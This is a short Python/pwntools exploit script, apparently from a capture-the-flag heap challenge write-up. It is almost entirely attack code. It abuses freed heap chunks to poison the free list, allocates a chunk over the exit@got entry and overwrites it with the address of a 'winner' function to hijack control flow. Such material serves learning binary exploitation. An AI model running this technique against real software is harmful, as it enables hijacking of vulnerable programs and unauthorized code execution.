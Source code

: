 ```py

send(b"4") #delete (free)
send(b"1")

send(b"4") #delete (free)
send(b"0")

send(b"2")
send(b"0")
send(p64(exe.got["exit"])) # point free list to exit@got

send(b"1") # create (malloc)
send(b"3")

send(b"1") # create chunk at exit@got
send(b"4")

send(b"2")
send(b"4")
send(p64(exe.sym["winner"])) # edit exit@got to point at the winner function

send(b"1")
send(b"-1")

p.interactive()
```